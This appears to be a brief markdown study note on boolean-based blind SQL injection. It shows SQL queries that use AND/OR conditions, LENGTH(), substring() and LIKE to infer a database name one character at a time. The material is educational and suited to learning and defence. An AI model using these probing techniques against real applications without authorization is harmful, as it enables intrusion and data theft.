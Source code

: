 ```yaml
---
tags: [security, sqli, web]
---
```


If the 1st part of the where clause is correct we can use the AND operator to get result

````sql
SELECT * 
FROM users 
WHERE id=1 AND database()="sbva";
````

If the 1st part of the where clause is wrong we can use the OR operator to get result

````sql
SELECT * 
FROM users 
WHERE id=2 OR database()="sbva";
````

#### Finding Database Name

1. <u>Find Length of Name</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR LENGTH(database())="1";
````

2. <u>Brute Force the Characters</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR substring(database(), 1, 1)="s";

SELECT * 
FROM users 
WHERE id=2 or substring(database(), 2, 1)="s";
````

3. <u>Try to Find Matching Pattern</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR database() LIKE "%s%";
````
